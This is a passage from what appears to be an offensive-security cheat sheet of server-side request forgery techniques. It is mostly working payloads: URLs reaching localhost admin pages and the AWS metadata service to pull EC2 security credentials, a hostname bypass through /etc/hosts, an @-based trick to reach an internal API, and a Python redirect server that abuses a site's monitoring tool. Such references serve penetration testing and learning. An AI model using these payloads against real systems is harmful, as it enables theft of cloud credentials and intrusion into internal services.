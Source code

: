 ```sh
key=/post/next?path=http://localhost/admin
```

<br />

## AWS Instances

```bash
?url=http://169.254.169.254/latest/dynamic/instance-identity/
?url=http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

<br />

## Hostname Bypass

### 1. Add Target Domain to /etc/hosts in Local Machine

```sh
x.x.x.x sub.example.com
```

Restart the hostname service to apply the configuration imediately.

```sh
sudo systemctl restart systemd-hostnamed
```

### 2. Access to the Domain We Specified**

```txt
https://example.com/?proxy=https://sub.example.com
```

<br />

## API Request

We might be able to get information from an API endpoint that is not accessible normally.

```bash
?url=https://api.example.com/users
?url=https://api.example.com@internal-api.example.com/users
```

<br />

## Reveal Filtered Websites via Monitoring Tools (Webhook)

Some web apps may have monitoring tools that check the health of external websites.  
You may be able to reveal hidden contents of the target via the monitor.  
First off, create a redirect server using Python. Here it’s named “redirect.py”.

```py
#!/usr/bin/python3
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

class Redirect(BaseHTTPRequestHandler):
  def do_GET(self):
      self.send_response(302)
      self.send_header('Location', sys.argv[1])
      self.end_headers()

HTTPServer(("0.0.0.0", 8000), Redirect).serve_forever()
```
